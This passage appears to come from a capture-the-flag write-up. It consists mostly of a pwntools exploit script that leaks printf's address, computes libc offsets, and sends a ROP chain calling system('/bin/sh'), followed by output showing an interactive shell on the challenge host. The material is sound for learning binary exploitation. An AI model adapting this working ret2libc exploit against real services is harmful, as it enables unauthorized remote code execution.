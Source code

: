 ```
payload = padding + padding_rbp + addr_of_find_printf
print(f"sending payload {payload}")
p.sendline(payload)
p.recvuntil("found printf, it's at:\n")
addr_of_printf = p.recvuntil("\n")
addr_of_printf = str(addr_of_printf).split("\\")[0]
addr_of_printf = str(addr_of_printf).split("'")[1]
print(f"found printf at: {addr_of_printf}")

# Step3, calculate the base of libc -> calculate the address of system
printf_offset  = "0x64e10"  # still a local value for testing
system_offset  = "0x55410"  # still a local value for testing
bin_sh_in_libc_offset = "0x1b75aa" # still a local value for testing
# pop_rdi = "0x4013d3"

pop_rdi = "0x401403"
libc_base = int(addr_of_printf, 16) - int(printf_offset, 16)

libc_system =int(hex(libc_base), 16) + int(system_offset, 16)

binsh_libc = int(hex(libc_base), 16) + int(bin_sh_in_libc_offset, 16)

print(f"found libc_base: {hex(libc_base)}")
print(f"found system in libc: {hex(libc_system)}")
print(p.recvuntil("Wait, how did you get here?\n"))

pop_rdi = p64(int(pop_rdi, 16))
binsh_libc = p64(binsh_libc)
libc_system = p64(libc_system)

rop_chain = pop_rdi + binsh_libc + libc_system
payload2 = padding + padding_rbp + rop_chain
# payload2 = padding + padding_rbp + p64(libc_system)
print(f"sending second payload {payload2}")
p.sendline(payload2)

p.interactive()
p.close()
```

Which we can run to give us a shell on the "remote" system

```
$ python3 exploit.py
[+] Opening connection to localhost on port 1024: Done
found find_printf at: 0x401219
b'\x19\x12@\x00\x00\x00\x00\x00'
sending payload b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCC\x19\x12@\x00\x00\x00\x00\x00'
found printf at: 0x7fe70dbbce10
found libc_base: 0x7fe70db58000
found system in libc: 0x7fe70dbad410
b'Wait, how did you get here?\n'
sending second payload b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCC\x03\x14@\x00\x00\x00\x00\x00\xaa\xf5\xd0\r\xe7\x7f\x00\x00\x10\xd4\xba\r\xe7\x7f\x00\x00'
[*] Switching to interactive mode
$ ls
flag
magic_function_finder
start.sh
ynetd
$ whoami
ctf
$
```